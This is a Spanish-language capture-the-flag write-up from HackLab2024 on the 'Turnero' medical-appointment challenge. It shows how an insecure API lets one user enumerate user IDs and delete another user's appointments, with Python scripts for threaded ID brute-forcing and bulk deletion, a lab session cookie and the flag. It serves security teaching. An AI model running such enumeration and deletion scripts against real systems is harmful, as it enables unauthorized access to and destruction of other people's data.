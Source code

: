 # M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)
> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

- Agustín M. Blanco
- Tomás N. Raspa
## Índice

1. [Turnero](#Turnero)
	1. [Primera aproximación(#Primera_aproximación)
	2. [Observando en profundidad](#Observando_en_produndidad)
	3. [El ataque](#El_ataque)


---
## Turnero

>Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario `xdalvik` ha reservado demasiados turnos de manera intencionada para incomodar a los demás.
>¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?
>Usuario: `luis`
>Clave: `Luis.4321`


### Primera aproximación

Al ingresar al sistema, tal y como nos fue anticipado por el enunciado, nos encontramos con una pantalla de inicio de sesión para lo que parecería ser un turnero:

![Pantalla LogIn](images/turnero/login.png)

Al ingresar con las credenciales de Luis que nos fueron provistas, obtenemos un panel con su listado de turnos:
![Lista de turnos de Luis](images/turnero/turnosLuis.png)

Jugando un poco con el sistema vemos que a priori lo único que parecería permitir es cerrar la sesión o cancelar un turno. Veamos ahora cómo está interactuando realmente nuestro navegador con el sistema...

### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al cargar la página con estas herramientas observamos que realmente se está construyendo en dos pasos. Primero se obtiene la estructura, y luego se ~~obtiene la información~~ obtienen los turnos a través de una API
![Requests en DevTools para Mis Turnos](images/turnero/peticionesMisTurnos.png)

Al observar con mayor detenimiento la segunda petición vemos que se trata de un [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a  `api/1/appointments/` que devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información sobre los turnos:
```json
[
    {
        "clinic": "Cl\u00ednica del Sol",
        "date": "2024-10-22T21:41:25.683923",
        "id": 1,
        "specialist": "Dr. Alvarez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b02",
        "date": "2024-10-25T04:41:25.684032",
        "id": 2,
        "specialist": "Dra. Gonzales",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Cl\u00ednica privada",
        "date": "2024-10-22T22:41:25.684079",
        "id": 3,
        "specialist": "Lic. Lopez",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Punilla",
        "date": "2024-10-23T22:41:25.684119",
        "id": 4,
        "specialist": "Dr. Lange",
        "user": "luis",
        "user_id": 1
    },
    {
        "clinic": "Hospital N\u00b0 14",
        "date": "2024-10-25T02:41:25.684158",
        "id": 5,
        "specialist": "Dra. Farias",
        "user": "luis",
        "user_id": 1
    }
]
```

Si miramos la información contenida en la respuesta, todos los turnos devueltos pertenecen al `user_id` 1, y, coincidentemente, la petición que habíamos hecho, la palabra `appointments` estaba precedida por un 1. Esto nos lleva hacer la siguiente suposición:
>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API probablemente sea `/api/:user_id/appointments/`, siendo `:user_id` el `id` del usuario que del que se desea obtener la lista de turnos 

Prestemos ~~ahora~~ atención al comportamiento del sistema cuando se desea cancelar un turno.
Al presionar `Cancelar` recibimos un [prompt](https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt) consultando si estamos seguros.
![](images/turnero/alertCancelacionTurno.png)

Al aceptar, vemos que la página se recarga y, si miramos nuevamente las herramientas de desarrollador, vemos que se ejecutaron dos peticiones
![](images/turnero/peticionesCancelarTurno.png)

La segunda petición es identica a todas las anteriores, obtiene el listado de turnos del usuario. Sin embargo, la primera es diferente. Se trata de un [DELETE](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/DELETE) al endpoint `/api/appointments/2` cuya respuesta fue el siguiente JSON: 
```json
{"message":"Turno eliminado correctamente"}
```

Observando el formato de la request, si lo extrapolamos con los datos que conocíamos de la respuesta al endpoint `/api/:user_id/appointments/` podemos sacar la siguiente conclusión:

>El [endpoint](https://www.cloudflare.com/es-es/learning/security/api/what-is-api-endpoint/) de la API para cancelar turnos es `/api/appointments/:id_turno`, siendo `:id_turno` el `id` del turno que se desea cancelar

Teniendo toda esta información, veamos ahora cómo podemos hacer para cancelarle los turnos a `xdalvik` :)

### El ataque

Nuestro objetivo es cancelarle los turnos a `xdalvik` sin afectar a los demás usuarios. Sin embargo, para poder cancelar un turno, primero necesitamos su `id` *de usuario*. Para lograr esto, con la información obtenida anteriormente y un poco de pensamiento lateral, llegamos a la siguiente estrategia. Podemos utilizar el endpoint `/api/:id_usuario/appointments/` y un poco de fuerza bruta para encontrar el `id` del usuario correspondiente a `xdalvik`.

```python
from concurrent.futures import ThreadPoolExecutor
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"


def probarId(id):
    res = requests.get(f"{URL_BASE}/api/{id}/appointments", cookies={'session':COOKIE_SESION})
    datos = res.json()

    if datos != []:
        print(f"[X] Usuario encontrado! Usuario: [{datos[0]['user']}]. Id: [{datos[0]['user_id']}]")

if __name__ == '__main__':
    lista = [x for x in range(0,500)]
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(probarId, lista)
```

>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

 Al ejecutar el script obtenemos el siguiente resultado:
 ```
[X] Usuario encontrado! Usuario: [luis]. Id: [1]
[X] Usuario encontrado! Usuario: [analia]. Id: [49]
[X] Usuario encontrado! Usuario: [xdalvik]. Id: [101]
```

Genial! Encontramos el `id` de `xdalvik`! Ahora solo nos falta eliminar sus turnos. Para ello, aprovechando el otro endpoint que habíamos descubierto, podemos armar otro script que elimine todos sus turnos.

```python
import requests

URL_BASE = "https://chl-53dca137-13ed-4b13-985d-97022b8f9e1e-turnero.softwareseguro.com.ar"
COOKIE_SESION = ".eJwlzj0KwzAMQOG7eO5gWX9WLhNkS6Zdk2YqvXsDnR8Pvk_Z15Hns2zv48pH2V9RtsIWi10kJwGad1VnBBzSZARSOEML8MlVogGZqUrYDOqVxSfMtQwFbak4EfX0hW0Ov6_q7hm96yAOTWNlqtAQZ1YGiztyLzfkOvP4a6B8f59wLxE.Zxbteg.qbb_2MLfNpQ_oCHUQzmbH2F8IKI"

def obtenerTurnos(idUsuario):
    res = requests.get(f"{URL_BASE}/api/{idUsuario}/appointments/", cookies={'session':COOKIE_SESION})
	return res.json()

def eliminarTurno(id):
    requests.delete(f"{URL_BASE}/api/appointments/{id}/", cookies={'session':COOKIE_SESION})

if __name__ == '__main__':
    turnosXdalvik = obtenerTurnos(101)
    for turno in turnosXdalvik:
        eliminarTurno(turno["id"])
```
>Nota: Las constantes `BASE_URL` y `COOKIE_SESION` deben ser adaptadas por ustedes para la instancia del laboratorio que estén ejecutando

Luego de ejecutar este último script, si recargamos la página en el navegador veremos que hemos obtenido la flag!

![](images/turnero/flag.png)
>Flag: `d27fa3f8fc14ea101603d09436e28bf6`
